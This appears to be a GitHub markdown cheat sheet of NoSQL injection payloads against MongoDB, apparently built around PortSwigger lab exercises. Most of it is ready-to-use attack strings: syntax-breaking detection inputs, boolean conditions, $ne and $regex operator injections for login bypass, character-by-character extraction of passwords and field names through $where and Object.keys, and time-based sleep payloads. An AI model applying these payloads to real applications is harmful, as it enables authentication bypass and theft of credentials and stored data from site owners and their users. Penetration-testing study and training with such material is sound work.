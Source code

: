 ### Table of Contents

1. [Basic Operator Difference Between SQLi and NoSQLi](#basic-operator-difference-between-sqli-and-nosqli)
2. [Detecting NoSQLi Vulnerability](#detecting-nosqli-vulnerability)
3. [NoSQL Operator Injection](#nosql-operator-injection)
4. [Submitting Query Operators](#submitting-query-operators)
5. [MongoDB Login Bypass](#mongodb-login-bypass)
6. [MongoDB Data Retrieving](#mongodb-data-retrieving)
7. [Operator Injection to Retrieve Unknown Data](#operator-injection-to-retrieve-unknown-data)
8. [Time-Based NoSQL Injection](#time-based-nosql-injection)

---

### Basic Operator Difference Between SQLi and NoSQLi

- **`or`** → **`||`**
- **`and`** → **`&&`**
- **`-- -`** → **`%00`**

---

### Detecting NoSQLi Vulnerability

#### For MongoDB Detection:
```
'%22%60%7b%0d%0a%3b%24Foo%7d%0d%0a%24Foo%20%5cxYZ%00
```
#### Causing Syntax Error in MongoDB:
```
'
```
#### Escaping the Syntax Error in MongoDB:
```
\'
```
Or we can try:
```
%00
```
#### Injecting in JSON Format:
```
'\"`{\r;$Foo}\n$Foo \\xYZ\u0000
```

#### Others:
```
'+%26%26+1%3d%3d1%00
'+||+1%3d%3d1%00
'||1||'
'\"`{\r%3b$Foo}\n$Foo+\\xYZ\u0000
{"$where": "sleep(5000)"}
admin'+function(x){var waitTill = new Date(new Date().getTime() + 5000);while((x.password[0]==="a") && waitTill > new Date()){};}(this)+'
admin'+function(x){if(x.password[0]==="a"){sleep(5000)};}(this)+'
```

---

### Confirming Conditional Behavior

```
' && 0 && 'x
' && 1 && 'x
' || 1 || 'x
'||'1'=='1
'%00
```

**Example with Explanation:**

1. ```category=Gifts' && 0 && 'x``` → This will return no items like ```category=Gifts' and 1=0-- -``` in SQL injection.
2. ```category=Gifts' && 1 && 'x``` → This will return Gift items like ```category=Gifts' and 1=1-- -``` in SQL injection.
3. ```category=Gifts' || 1 || 'x``` → This will return all the items like ```category=Gifts' or 1=1-- -``` in SQL injection.
4. Same as 3.

---

### NoSQL Operator Injection

- **`$where`** - Matches documents that satisfy a JavaScript expression.
- **`$ne`** - Matches all values that are not equal to a specified value.
- **`$in`** - Matches all of the values specified in an array.
- **`$regex`** - Selects documents where values match a specified regular expression.

For more details: [Portswigger](https://portswigger.net/web-security/nosql-injection#nosql-operator-injection)

---

### Submitting Query Operators

In **JSON** messages, you can insert query operators as nested objects. For example, `{"username":"wiener"}` becomes `{"username":{"$ne":"invalid"}}`.

For URL-based inputs, you can insert query operators via URL parameters. For example, `username=wiener` becomes `username[$ne]=invalid`.

If this doesn't work, you can try the following:

1. Convert the request method from `GET` to `POST`.
2. Change the `Content-Type` header to `application/json`.
3. Add JSON to the message body.
4. Inject query operators in the JSON.

---

### MongoDB Login Bypass

- `{"$regex":"wien.*"}` → For username
- `{"$ne":"Invalid"}` → For password
- `{"$in":["admin","administrator","superadmin"]}` → For brute force

![MongoDB Login Bypass Screenshot](https://github.com/user-attachments/assets/18902009-c2d8-4162-b5d8-7ebb221fd49e)

In some cases we might need to use `\`.

![Screenshot From 2025-02-13 13-24-35](https://github.com/user-attachments/assets/05947457-4d43-48a4-84ba-a4b069e7bc04)

```
"{\"$ne\":null}"
```

**Note: We need to input at least one valid credential to make a valid query.**

If this doesn't work, you can try the following:

1. Convert the request method from `GET` to `POST`.
2. Change the `Content-Type` header to `application/json`.
3. Add JSON to the message body.
4. Inject query operators in the JSON.

---

### MongoDB Data Retrieving

**Extracting Password:**
```
' && this.password.length < 50%00 → For extracting password length in URL
' && this.password[0] == 'a'%00 → For extracting password in URL
{"username":"admin","password":{"$regex":"^a*"}} → For extracting password via operator
```

---

### Identifying Field Names

```
' && this.anything && 'a'=='b → Confirming if there is a field name
' && this.username!=' → Identifying field names [Note: If there is a username field exists, it will respond with a different type of message]
' && this['u'] && 'a'=='b → Retrieving field name character by character
' && this.u.s.e.r.n.a.m['e'] && 'a'=='b
```

---

### Operator Injection to Retrieve Unknown Data

```
{"username":{"$regex":"admin"},"password":{"$ne":"Invalid"}}
{"username":{"$regex":"admin"},"password":{"$ne":"Invalid"},"$where":"e"}  → To generate a server error.
{"username":{"$regex":"admin"},"password":{"$ne":"Invalid"},"$where":"0"}  → To generate a false statement.
{"username":{"$regex":"admin"},"password":{"$ne":"Invalid","$where":"1"}}  → To generate a true statement.
{"username":{"$regex":"admin"},"password":{"$ne":"Invalid"},"$where":"0"}  
{"username":{"$regex":"admin"},"password":{"$ne":"Invalid","$where":"Object.keys(this)[0].match('^.{0}.*')"}}
{"username":{"$regex":"admin"},"password":{"$ne":"Invalid"},"$where":"0"}  
{"username":{"$regex":"admin"},"password":{"$ne":"Invalid","$where":"Object.keys(this)[0].match('^.{0}0.*')"}}
```

**Key Details:**
- `Object.keys(this)[0].match('^.{0}.*')` → To identify data size (e.g., Password).
- `Object.keys(this)[0].match('^.{0}0.*')` → To fetch the data.
- `this.forgotpwd.match('^.{0}.*')` → To fetch specific key-value data size.
- `this.forgotpwd.match('^.{0}0.*')` → To fetch specific key-value data.

1st `0` means key number.  
2nd `0` means data size.  
3rd `0` means data character.  
For brute forcing, select only 2nd and 3rd `0`.

---

### Time-Based NoSQL Injection

```
{
  "username": "admin",
  "password": { "$where": "sleep(5000)" }
}
```

**Data Retrieve**

- **Initial Request:**
```
{
  "product": "Tablet",
  "price": 350,
}
```

- **Malformed Request:**
```
{
  "product": { "$eq": "Tablet" },
  "price": { "$where": "if (this.price > 300) { sleep(5000); return true; } return false;" }
}
```

---
